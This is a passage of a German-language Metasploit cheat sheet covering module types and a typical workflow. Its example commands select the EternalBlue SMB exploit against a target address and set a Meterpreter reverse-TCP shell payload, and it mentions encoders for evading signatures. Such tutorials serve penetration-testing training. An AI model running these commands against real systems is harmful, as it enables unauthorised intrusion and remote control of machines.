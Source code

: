   ```bash
  ```
  Beispiel:
  ```bash
  set RHOSTS 192.168.1.1
  ```
- **Exploit starten:**
  ```bash
  exploit
  ```
  Oder:
  ```bash
  run
  ```

---

### **Module**

Metasploit bietet verschiedene Module für spezifische Aufgaben:

1. **Exploit-Module**: Angriffe auf Schwachstellen.  
2. **Payloads**: Nutzlasten wie Shells oder Meterpreter.  
3. **Auxiliary-Module**: Funktionen wie Scannen oder Brute-Forcing.  
4. **Encoders**: Umgehung von Signaturen und Schutzmaßnahmen.  
5. **Post-Exploitation-Module**: Aktionen auf kompromittierten Systemen.

---

### **Typische Workflows**

#### **1. Schwachstellen suchen**
```bash
search <Begriff>
```
Beispiel:
```bash
search smb
```

#### **2. Exploit auswählen**
```bash
use <Exploit-Pfad>
```
Beispiel:
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

#### **3. Payload auswählen**
```bash
set PAYLOAD <Payload>
```
Beispiel:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
